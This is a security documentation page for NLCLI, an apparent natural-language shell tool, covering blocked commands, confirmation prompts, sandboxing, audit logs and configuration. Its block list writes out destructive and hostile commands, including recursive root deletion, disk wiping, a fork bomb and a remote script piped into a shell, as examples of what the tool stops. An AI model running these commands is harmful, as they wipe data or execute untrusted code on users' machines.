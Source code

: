 # Security Features

## Built-in Safety Protections

NLCLI is designed with security as the primary concern. Every command is validated before execution.

## What's Automatically Blocked

### System-wide Dangerous Commands
```bash
❌ rm -rf /                    # System-wide deletion
❌ chmod -R 777 *              # Dangerous permissions  
❌ curl malicious.site | sh    # Remote code execution
❌ dd if=/dev/zero of=/dev/sda # Disk wiping
❌ :(){ :|:& }                 # Fork bombs
❌ sudo rm -rf /               # Privileged deletion
```

### Path Restrictions
- System directories (`/var`, `/etc`, `/sys`, etc.) are protected
- Operations limited to user-accessible directories
- Automatic detection and blocking of sensitive paths

## Confirmation Required Operations

These operations require user confirmation before execution:

```bash
⚠️  rm large-file.zip          # File deletion
⚠️  find . -name "*.tmp" -delete # Bulk deletion
⚠️  mv important/ /tmp/        # Moving important directories
⚠️  kill process named chrome  # Process termination
```

## Safety Features

### 1. Dry-run by Default
Every command is shown to you before execution:
```bash
› delete temp files
💡 I'll find and delete temporary files in the current directory.
📝 Command: find . -name "*.tmp" -type f -delete
⚠️  This will modify your system. Continue? [y/N]
```

### 2. Resource Limits
- **Timeouts**: Commands automatically terminate after 30 seconds (configurable)
- **Output limits**: Large outputs are truncated to prevent system overload
- **Memory limits**: Commands run with restricted resource usage

### 3. Audit Logging
All operations are logged for security review:
```bash
› audit                        # View audit trail
› security scan               # Run security analysis
```

### 4. Sandboxed Execution
Commands run in a restricted environment:
- Limited access to system directories
- No network access for dangerous operations
- Temporary directory isolation

## Security Configuration

### Basic Security Settings
```json
{
  "safety": {
    "timeout_seconds": 30,
    "max_output_size": "1MB",
    "confirm_destructive": true,
    "allow_system_paths": false
  }
}
```

### Enterprise Security
```json
{
  "enterprise": {
    "enabled": true,
    "audit_retention_days": 365,
    "require_user_authentication": true,
    "security_scan_enabled": true
  },
  "security": {
    "enable_rbac": true,
    "enable_audit_logging": true,
    "enable_policy_enforcement": true
  }
}
```

## Security Commands

### View Security Status
```bash
› security                     # Show security overview
› security scan               # Run comprehensive security scan
› policies                     # Show active security policies
```

### Audit Trail
```bash
› audit                        # Show recent audit entries
› audit export                # Export audit log
› audit search "command"       # Search audit history
```

## Best Practices

### 1. Regular Security Scans
Run periodic security scans:
```bash
› security scan
```

### 2. Review Audit Logs
Regularly check the audit trail:
```bash
› audit
```

### 3. Use Confirmations
Keep confirmations enabled for destructive operations:
```json
{
  "preferences": {
    "confirm_by_default": true
  }
}
```

### 4. Restrict Allowed Directories
Limit operations to specific directories:
```json
{
  "preferences": {
    "allowed_directories": ["/Users/username", "/tmp"]
  }
}
```

## Reporting Security Issues

If you discover a security vulnerability, please report it to:
- Email: security@nlcli.org
- Use GitHub's private vulnerability reporting
- Follow responsible disclosure practices

## Security Audit Results

NLCLI has undergone comprehensive security testing:
- ✅ Command injection prevention
- ✅ Path traversal protection  
- ✅ Resource exhaustion mitigation
- ✅ Privilege escalation blocking
- ✅ Remote code execution prevention
